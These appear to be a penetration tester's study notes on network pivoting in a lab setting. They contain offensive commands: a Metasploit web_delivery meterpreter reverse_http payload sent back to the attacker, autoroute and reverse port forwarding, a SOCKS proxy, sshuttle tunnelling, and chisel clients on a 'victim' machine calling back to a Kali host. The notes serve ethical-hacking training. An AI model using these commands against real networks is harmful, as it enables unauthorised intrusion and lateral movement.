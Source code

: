 # Pivoting

## Metasploit

### Check routes on a win machine

- We need to see what other access has our target machine

- `route print`
  ```
  C:\Windows\system32>route print
  route print
  ===========================================================================
  Interface List
   12...08 00 27 ae c1 68 ......Intel(R) PRO/1000 MT Desktop Adapter
    1...........................Software Loopback Interface 1
  ===========================================================================

  IPv4 Route Table
  ===========================================================================
  Active Routes:
  Network Destination        Netmask          Gateway       Interface  Metric
            0.0.0.0          0.0.0.0     192.168.57.1        10.0.2.15     25
           10.0.2.0    255.255.255.0         On-link         10.0.2.15    281
          10.0.2.15  255.255.255.255         On-link         10.0.2.15    281
         10.0.2.255  255.255.255.255         On-link         10.0.2.15    281
          127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
          127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
    127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         10.0.2.15    281
    255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
    255.255.255.255  255.255.255.255         On-link         10.0.2.15    281
  ===========================================================================
  Persistent Routes:
    None

  IPv6 Route Table
  ===========================================================================
  Active Routes:
   If Metric Network Destination      Gateway
    1    331 ::1/128                  On-link
   12    281 fe80::/64                On-link
   12    281 fe80::857:534f:3bb0:8fce/128
                                      On-link
    1    331 ff00::/8                 On-link
   12    281 ff00::/8                 On-link
  ===========================================================================
  Persistent Routes:
    None
  ```

- `arp -a`
  ```
  Interface: 10.0.2.15 --- 0xc
  Internet Address      Physical Address      Type
  10.0.2.3              08-00-27-35-94-d3     dynamic   
  10.0.2.4              08-00-27-fc-72-e9     dynamic   
  10.0.2.5              08-00-27-7f-90-90     dynamic   
  10.0.2.8              08-00-27-1d-d2-98     dynamic   
  10.0.2.255            ff-ff-ff-ff-ff-ff     static    
  192.168.57.1          52-54-00-12-35-00     dynamic   
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  239.255.255.250       01-00-5e-7f-ff-fa     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static    
  ```

- Now that we have other interesting IPs we can try to reach those new ones
- We can make a port scan on one of these IPs
- `use auxiliary/scanner/portscan/tcp`
- `set rhosts 10.0.2.5`
- `set ports 445`
- `run`
  ```
  [+] 10.0.2.5:             - 10.0.2.5:445 - TCP OPEN
  [*] 10.0.2.5:             - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```  
  We could of course have set more ports and this would be a cool nmap like tool.
  

## Reverse port forwarding and Session Passing with Metasploit having initial shell on Covenant

- We can assume that we have a shell with covenant for instance
- We generate a payload with metasploit through web delivery (more stealthy because it can pass as http traffic)
- `use exploit/multi/script/web_delivery`
- `set target 2` (for powershell)
- `set payload windows/x64/meterpreter/reverse_http`
- set lhost to your attacking machine
- sel an lport 
- `exploit -j`
- Now we can copy the payload and paste to our grunt in Covenant
- Metasploit should now have opened a session
- We can choose an interface with `ipconfig`
- `run autoroute -s 192.168.16.0/24`
- We can check it's been done using `run autoroute -p`
- We can now set up a reverse port forward
- `portfwd add -R -p 1234 -l 443 -L ATTACKING-MACHINE-IP`
- We can check it's been done using `portfwd`
- we can background our session with CTRL-Z 
- We will setup a socks proxy `use auxiliary/server/socks4a`
- We need to check our port in `/etc/proxychains4.conf`
- `set srvport 9050`
- we can check our jobs using `jobs`
- We can kill the web delivery one that we do not need anymore `jobs -k ID-OF-JOB`
- We now need to create a listener on covenant that will interact with the port forward set previously:
  `1      192.168.3.28:443  0.0.0.0:1234  Reverse`
- BindAddress can stay at 0.0.0.0, BindPort should be 443, connectPort should be 1234 and connect address is the ip of our victime machine.
- We should now be able to reach other machine in the network of the initial machine that has now route to our attacking machine using proxychains

## Shuttle

Let's say you got shell on a machine and this machine has access local to another (let's call it machine 2).
Shuttle will allow you to access machine 2 from your network and act as a proxy.  

```
sshuttle --listen 0.0.0.0 -e "ssh -i keyfile" -r user@IP-OF-YOUR-TARGET-MACHINE IP-OF-SUBNET-ACCESSIBLE-THROUGH-MACHINE2/24 -v
// example
sshuttle --listen 0.0.0.0 -e "ssh -i key" -r root@10.10.120.117 172.12.1.0/24 -v
```

## Chisel

- If you have a shell on a machine that has a local port open you can forward this port to your machine using chisel, it is called **port forwarding** for instance in our example we want to forward to listen the port 445 of the target machine that is open locally. You will then be able to intract from your kali on your port 445:

```
- On my kali `chisel server --reverse` (it is going to listen on port 8080)
- On the target `.\chisel.exe client KALI-IP:8080 R:445:127.0.0.1:445`
```
- You can check out examples of use of chisel on the [chatterbox writeup](../writeups/HTB-chatterbox.md) or [buffer overflow windows](../Binary-Exploitation/buffer-overflow-stack-win86.md)

### Pivoting with Chisel

- From my kali `chisel server --reverse`
- From the victim machine `.\chisel.exe client IP-OF-KALI:8080 R:1080:socks`
- In your `etc/proxychains4.conf` add this line `socks5 	127.0.0.1 1080`

## Resources

{% embed url="https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/" %} Amazing Resource about pivoting but only in french, it could def be read using google translate {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} TCM Security Academy - Practical Ethical Hacking - The Complete Course {% endembed %}

